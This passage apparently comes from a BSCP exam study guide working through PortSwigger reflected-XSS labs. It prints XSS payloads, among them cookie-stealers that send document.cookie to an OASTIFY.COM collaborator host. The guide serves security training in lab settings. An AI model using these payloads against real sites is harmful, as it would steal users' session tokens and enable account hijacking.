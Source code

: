 ![reflected script](images/reflected_xss.png)

The variable `searchTerms` is undefined, the `script` tag is intentionally closed and the heading "test" is injected. 

>Now, try the payload to execute JavaScript:

```JavaScript
</script><script>alert(1)</script>
```  

>Changing the payload to a cookie stealer that deliver the session token to Burp Collaborator. 

```html
</script><script>document.location="https://OASTIFY.COM/?cookie="+document.cookie</script>
```  

![collaborator get cookies](images/collaborator-get-cookies.png)  

>When placing this payload in `iframe`, the target application do not allow it to be embedded and give message: `refused to connect`.  
  
[PortSwigger Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped)  
  
>In BSCP exam host the below payload on exploit server inside `<script>` tags, and the search query below before it is URL encoded.  

```
</ScRiPt ><img src=a onerror=document.location="https://OASTIFY.COM/?biscuit="+document.cookie>
```  
